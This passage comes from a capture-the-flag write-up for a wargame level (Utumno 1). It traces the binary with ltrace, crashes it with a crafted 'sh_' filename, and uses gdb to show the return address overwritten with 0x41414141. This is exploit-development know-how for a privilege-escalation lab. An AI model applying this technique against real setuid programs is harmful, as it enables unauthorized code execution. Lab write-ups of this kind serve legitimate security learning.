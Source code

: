 So, the code open the directory we specify as argument. Let's create a temporary directory and try again.

```bash
utumno1@utumno:/utumno$ltrace ./utumno1 /tmp/ax
__libc_start_main(0x80484a5, 2, 0xffffd764, 0x8048530 <unfinished ...>
opendir("/tmp/ax")                                                   = 0x804a008
readdir(0x804a008)                                                   = 0x804a024
strncmp("sh_", ".", 3)                                               = 69
readdir(0x804a008)                                                   = 0x804a034
strncmp("sh_", "..", 3)                                              = 69
readdir(0x804a008)                                                   = 0
+++ exited (status 0) +++
```

Now, the executable tries to read a filename starting by **"sh_"**. Let's create a file starting with **sh_** :

```bash
utumno1@utumno:/tmp/ax$ touch sh_AAAAAAAAAAAAAAAA
utumno1@utumno:/tmp/ax$ /utumno/utumno1 /tmp/ax
Segmentation fault
```

Segmentation fault ! That's good ! Now, we need to do some dynamic analysis (I'll skip the useless parts).

```nasm
utumno1@utumno:/tmp/ax$ gdb -q /utumno/utumno1
Reading symbols from /utumno/utumno1...done.
(gdb) set disassembly-flavor intel
(gdb) disas run
Dump of assembler code for function run:
   0x0804848b <+0>:	push   ebp
   0x0804848c <+1>:	mov    ebp,esp
   0x0804848e <+3>:	sub    esp,0x4
   0x08048491 <+6>:	lea    eax,[ebp-0x4]
   0x08048494 <+9>:	add    eax,0x8
   0x08048497 <+12>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804849a <+15>:	mov    eax,DWORD PTR [ebp-0x4]
   0x0804849d <+18>:	mov    edx,DWORD PTR [ebp+0x8]
   0x080484a0 <+21>:	mov    DWORD PTR [eax],edx
   0x080484a2 <+23>:	nop
   0x080484a3 <+24>:	leave
   0x080484a4 <+25>:	ret
End of assembler dump.
(gdb) break *run+25
Breakpoint 1 at 0x80484a4: file utumno1.c, line 27.
(gdb) run /tmp/ax
Starting program: /utumno/utumno1 /tmp/ax

Breakpoint 1, 0x080484a4 in run (p=0x804a032) at utumno1.c:27
27	utumno1.c: No such file or directory.
(gdb) x/x $esp
0xffffd678:	0x0804a032
(gdb) x/x 0x0804a032
0x804a032:	0x41414141
```
